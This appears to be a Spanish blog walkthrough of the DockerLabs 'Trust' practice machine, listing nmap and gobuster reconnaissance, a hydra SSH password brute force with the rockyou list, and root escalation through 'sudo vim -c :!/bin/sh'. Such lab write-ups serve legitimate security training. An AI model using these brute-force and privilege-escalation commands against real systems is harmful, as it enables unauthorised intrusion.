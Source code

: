 ```yaml
---
layout: post
title: "Trust"
date: 2024-06-28 15:20:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Trust </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/trust/host.png){:.margin}

**1\.** Escaneo los puertos y servicios en el host objetivo.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.17.0.2`

![img](/notas/public/img/dockerlabs/trust/nmap.png){:.margin}

**2\.** En la web corre la pagina Apache por defecto.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/80.png){:.margin}

**3\.** Hago fuzzing de recursos en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/trust/gobuster.png){:.margin}

**4\.** En este archivo php podemos pillar un posible usuario.

`http://172.17.0.2/secret.php`

![img](/notas/public/img/dockerlabs/trust/secret.png){:.margin}

**5\.** Haciendo fuerza bruta al ssh.

`hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/hydra.png){:.margin}

**6\.** Accedo por ssh como mario.

`ssh mario@172.17.0.2`

![img](/notas/public/img/dockerlabs/trust/sshmario.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/trust/sudol.png){:.margin}

**8\.** Escalando privilegios.

_8.1- Busco en [gtfobins](https://gtfobins.github.io/gtfobins/vim/#sudo) para ver la forma de uso del binario_

`sudo vim -c ':!/bin/sh'`

_8.2- Ya somos root_

![img](/notas/public/img/dockerlabs/trust/root.png){:.margin}

<br>

<a href="">_Finalizado._</a>